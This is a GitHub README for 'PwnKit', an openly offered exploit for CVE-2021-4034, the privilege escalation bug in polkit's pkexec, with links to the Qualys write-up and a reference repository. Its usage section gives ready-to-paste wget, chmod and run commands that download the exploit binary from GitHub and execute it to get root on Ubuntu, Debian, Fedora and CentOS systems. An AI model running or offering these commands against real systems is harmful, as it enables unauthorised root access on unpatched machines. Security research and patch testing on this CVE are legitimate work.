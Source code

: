 # PwnKit

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
wget https://github.com/B4MNsec/PwnKit/raw/main/PwnKit
chmod +x ./PwnKit
./PwnKit
```

## Example

![](./imgs/example.png)

## Technical Details

- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

## References

- https://github.com/arthepsy/CVE-2021-4034/
